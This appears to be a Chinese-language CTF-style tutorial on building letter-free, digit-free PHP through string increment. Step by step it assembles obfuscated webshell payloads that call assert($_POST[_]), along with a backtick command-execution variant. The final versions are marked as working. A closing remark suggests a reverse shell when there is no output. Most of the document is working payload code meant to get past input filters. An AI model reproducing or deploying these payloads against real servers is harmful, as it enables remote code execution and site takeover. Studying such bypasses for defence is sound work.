




**自增原理**
```php
<?php  
$a='A';  
echo 'A的ascii值：'.ord($a)."\n";  
$b=++$a;  
echo '++$a的值:'.ord($b)."\n";  
echo $b;  
?>
```

	**由此我们需要什么字母就在A的基础上==自增==即可，例如E需要在A的基础上增加4次**

**获取A做起始字符**
```php
<?php
$a = [] . ''; #强制类型转换为字符串,就可以通过索引获取  
echo $a . "\n"; #得到Array  
echo $a[0];
?>
```


**要求无字母数字**
```php
<?php
$_ = [] . ''; #强制类型转换为字符串,就可以通过索引获取  
echo $_ . "\n"; #得到Array  
echo $_[$__]; #其中$__并没有定义，因此值为False，也就是0
?>
```


**执行命令**
```php
ASSERT($_POST[_]);
要构造assert与POST
A的ASCII为65
S的ASCII值为83
E的ASCII值为69
R的ASCII值为82
T的ascii值为84

P的ASCII值为80
O的ASCII值为79
S的ASCII值为83
T的ascii值为84

构造变量A S E R T P O 一共需要7个变量$_,$__,$___,$____,$_____,$______,$_______
$__,$___,$____,$_____,$______$_______全部由$_自增得到

当都得到后，ASSERT($_POST[_]);
变成$_.$__.$__.$___.$____.$_____('$'.'_'.$______.$_______.$__.$_____);

<?php

$_ = 'A';  
$__ = 'S';  
$___ = 'E';  
$____ = 'R';  
$_____ = 'T';  
$______ = 'P';  
$_______ = 'O';  

// 正确：将整个字符串用引号括起来，或者正确拼接  
$_ = $_ . $__ . $__ . $___ . $____ . $_____; #$_赋值assert
$____ = '_'.$______.$_______.$__$_____;  #$____赋值_POST

$_() #调用assert函数
$____ = $$____ #$____重新赋值为$_POST

$_($____[_]); 完成对函数的调用
?>
```

**无数字字母自增写法**
```php
<?php
$_ = [] . '';
$_ = $_[$___________]; # $___________没有定义过，返回0
echo $_."\n"; # $_=A
$___________ = $_; # $___________ 用于每次还原$_为A

++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$__ = $_;
echo $__."\n";

$_ = $___________; # 还原$_为A

++$_;++$_;++$_;++$_;
$___ = $_; 
echo $___."\n";

$_ = $___________; # 还原$_为A

++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$____ = $_;
echo $____."\n"; 

$_ = $___________; # 还原$_为A

++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$_____ = $_;  
echo $_____."\n"; 

$_ = $___________; # 还原$_为A

++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;
$______ = $_;  
echo $______."\n"; 

$_ = $___________; # 还原$_为A

++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;
$_______ = $_;  
echo $_______."\n"; 
  
// 正确：将整个字符串用引号括起来，或者正确拼接  
$_ = $_ . $__ . $__ . $___ . $____ . $_____; #$_赋值assert
$____ = '_'.$______.$_______.$__.$_____;  #$____赋值_POST

$_() #调用assert函数
$____ = $$____;#$____重新赋值为$_POST

$_($____[_]); 完成对函数的调用
?>
```

**去除注释构成payload**
```php
<?php
$_ = [] . '';
$_ = $_[$___________];
$___________ = $_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$__ = $_;
$_ = $___________;
++$_;++$_;++$_;++$_;
$___ = $_; 
$_ = $___________;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$____ = $_;
$_ = $___________;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$_____ = $_;  
$_ = $___________;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;++$_;
$______ = $_;  
$_ = $___________;
++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
++$_;++$_;++$_;++$_;
$_______ = $_;  
$_ = $___________;
echo $_ . $__ . $__ . $___ . $____ . $_____ . '($' . '_' . $______ . $_______ . $__ . $_____ . '[_])';  
// 输出: ASSERT($_POST[_])
?>
```

**去除换行**
```php
<?php
$_ = [] . '';$_ = $_[$___________];$___________ = $_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$__ = $_;$_ = $___________;++$_;++$_;++$_;++$_;$___ = $_; 
$_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$____ = $_;$_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_____ = $_;  $_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$______ = $_;  $_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$_______ = $_;  $_ = $___________;
echo $_ . $__ . $__ . $___ . $____ . $_____ . '($' . '_' . $______ . $_______ . $__ . $_____ . '[_])';  
// 输出: ASSERT($_POST[_])
?>
```

**去除e最后的cho与注释,==给最终构成的ASSERT($_POST[_])的变体赋值给一个变量然后调用==**
```php
<?php
$_ = [] . '';$_ = $_[$___________];$___________ = $_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$__ = $_;$_ = $___________;++$_;++$_;++$_;++$_;$___ = $_; 
$_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$____ = $_;$_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_____ = $_;  $_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$______ = $_;  $_ = $___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;
$_______ = $_;  $_ = $___________;
echo $_ . $__ . $__ . $___ . $____ . $_____ . '($' . '_' . $______ . $_______ . $__ . $_____ . '[_])';  
变为:
$___________ = $_ . $__ . $__ . $___ . $____ . $_____ . '($' . '_' . $______ . $_______ . $__ . $_____ . '[_])';  
echo $___________;
?>
```

**删除所有空格并==调用最终语句==最终payload**
```php
<?php
$_=[].'';$_=$_[$___________];$___________=$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$__=$_;$_=$___________;++$_;++$_;++$_;++$_;$___=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$____=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_____=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$______=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_______=$_;$_=$___________;$_.$__.$__.$___.$____.$_____.('$'.'_'.$______.$_______.$__.$_____.[_]);
?>
```

**这就是自增原理==\[上面payload失败原因`'($' . '_' . $______ . $_______ . $__ . $_____ . '[_])'中引号导致`\]==**
	应该直接构造分别给assert与_POST找一个变量储存
	然后以==函数方式调用==
	失败原因是因为`'($' . '_' . $______ . $_______ . $__ . $_____ . '[_])' 括号打引号不再是函数

```php
<?php
$_=[].'';$_=$_[$___________];$___________=$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$__=$_;
$_=$___________;++$_;++$_;++$_;++$_;$___=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$____=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_____=$_;  $_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$______=$_;$_=$___________;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;++$_;$_______=$_;$_=$_.$__.$__.$___.$____.$_____;$____='_'.$______.$_______.$__.$_____;$____=$$____;$_($____[_]);
?>
```

**==使用橙子科技的POC更靠谱（成功）==**
```php
<?php
assert($_POST[_])版本
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = "_";$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;  
$__=$$____;  
$_($__[_]);
?>
```


```php
`$_POST[_]`版本使用php7
<?php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = "_";$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;  
$___=$$____;  
`$___[_]`;
?>

#无回显 使用sleep 函数或反弹shell等手段
```
